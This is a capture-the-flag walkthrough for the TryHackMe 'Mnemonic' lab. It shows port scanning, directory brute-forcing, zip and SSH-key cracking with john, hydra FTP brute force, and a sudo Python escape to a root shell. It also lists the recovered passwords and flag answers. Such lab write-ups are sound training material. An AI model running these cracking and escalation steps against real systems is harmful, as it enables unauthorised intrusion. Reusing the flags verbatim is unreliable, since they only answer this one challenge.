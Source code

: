 # Mnemonic

## Mnemonic

{% embed url="https://www.youtube.com/watch?v=pBSR3DyobIY" %}

{% hint style="success" %}
No answer needed
{% endhint %}

## Enumerate

### How many open ports?

```bash
nmap -sC -sV -T5 -p1-65535 10.10.109.236
```

![](../.gitbook/assets/image%20%28178%29.png)

{% hint style="success" %}
3
{% endhint %}

### What is the ssh port number? 

![](../.gitbook/assets/image%20%28151%29.png)

{% hint style="success" %}
1337
{% endhint %}

### What is the name of the secret file?

![](../.gitbook/assets/image%20%28177%29.png)

```bash
gobuster dir -u http://10.10.109.236 -w /usr/share/dirb/wordlists/common.txt

gobuster dir -u http://10.10.109.236 -w big.txt -x php,txt,html -t 50
```

![](../.gitbook/assets/image%20%28157%29.png)

```bash
gobuster dir -u http://10.10.109.236/webmasters/ -w big.txt -x php,txt,html -t 50
```

![](../.gitbook/assets/image%20%28176%29.png)

```bash
gobuster dir -u http://10.10.109.236/webmasters/admin/ -w big.txt -x php,txt,html -t 50

```

![](../.gitbook/assets/image%20%28146%29.png)

```bash
gobuster dir -u http://10.10.109.236/webmasters/backups -w /usr/share/dirb/wordlists/common.txt -x sql,php,txt,css,zip,csv,dat,dbf,log,mdb,sav,tar,xml,cgi
```

![](../.gitbook/assets/image%20%28147%29.png)

![](../.gitbook/assets/image%20%28164%29.png)

{% hint style="success" %}
backups.zip
{% endhint %}

## Credentials

```bash
zip2john backups.zip > ziphash.txt
john ziphash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![](../.gitbook/assets/image%20%28145%29.png)

```bash
unzip backups.zip
00385007
cat backups/note.txt
```

![](../.gitbook/assets/image%20%28187%29.png)

###  ftp user name? 

```bash
hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt ftp://10.10.109.236 -t 50 
```

{% hint style="success" %}
ftpuser
{% endhint %}

### ftp password? 

![](../.gitbook/assets/image%20%28143%29.png)

{% hint style="success" %}
love4ever
{% endhint %}

### What is the ssh username? 

![](../.gitbook/assets/image%20%28159%29.png)

![](../.gitbook/assets/image%20%28144%29.png)

![](../.gitbook/assets/image%20%28158%29.png)

{% hint style="success" %}
james
{% endhint %}

### What is the ssh password?

```bash
chmod 600 id_rsa
ssh -i id_rsa james@10.10.109.236
```

![](../.gitbook/assets/image%20%28162%29.png)

```bash
python3 /usr/share/john/ssh2john.py id_rsa > john_ssh.txt
john --wordlist=/usr/share/wordlists/rockyou.txt john_ssh.txt

```

![](../.gitbook/assets/image%20%28188%29.png)

{% hint style="success" %}
bluelove
{% endhint %}

### What is the condor password? 

```bash
ssh james@10.10.109.239 -p 1337
```

![](../.gitbook/assets/image%20%28156%29.png)

![](../.gitbook/assets/image%20%28163%29.png)

![](../.gitbook/assets/image%20%28170%29.png)

![](../.gitbook/assets/image%20%28134%29.png)

![](../.gitbook/assets/image%20%28168%29.png)

![](../.gitbook/assets/image%20%28169%29.png)

```bash
git clone https://github.com/MustafaTanguner/Mnemonic
cd Mnemonic/
python3 -m pip install --user colored
python3 -m pip install --user opencv-python
```

![](../.gitbook/assets/image%20%28150%29.png)

```bash
python3 Mnemonic.py
/root/mnemonic/maxresdefault.jpg
2
/root/mnemonic/6450.txt
```

![](../.gitbook/assets/image%20%28138%29.png)

{% hint style="success" %}
pasificbell1981
{% endhint %}

## Hack the machine

### user.txt 

{% hint style="success" %}
THM{a5f82a00e2feee3465249b855be71c01}
{% endhint %}

### root.txt

```bash
ssh -p 1337 condor@10.10.109.239
sudo -l
```

![](../.gitbook/assets/image%20%28184%29.png)

![](../.gitbook/assets/image%20%28141%29.png)

```bash
sudo /usr/bin/python3 /bin/examplecode.py
0
.
/bin/bash
```

![](../.gitbook/assets/image%20%28186%29.png)

![](../.gitbook/assets/image%20%28139%29.png)

{% hint style="success" %}
THM{2a4825f50b0c16636984b448669b0586}
{% endhint %}

